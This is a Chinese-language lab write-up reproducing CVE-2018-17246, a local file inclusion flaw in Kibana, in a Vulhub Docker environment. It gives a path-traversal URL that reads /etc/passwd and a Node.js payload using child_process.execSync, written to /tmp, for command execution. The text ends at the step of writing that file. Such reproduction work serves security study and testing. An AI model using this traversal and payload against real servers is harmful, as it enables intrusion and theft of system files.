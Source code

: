# Kibana 本地文件包含漏洞 CVE-2018-17246

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

Vulhub启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana的默认首页。

![image-20220224201606864](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202242016950.png)

## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![image-20220224201853518](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202242018849.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们可以将如下代码上传到服务器的`/tmp/vulhub.js`，文件内容为：

```
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

首先进入docker：

```
docker-compose exec kibana bash 
```

在docker内写入文件：

```
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

![image-20220224202447963](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202242024051.png)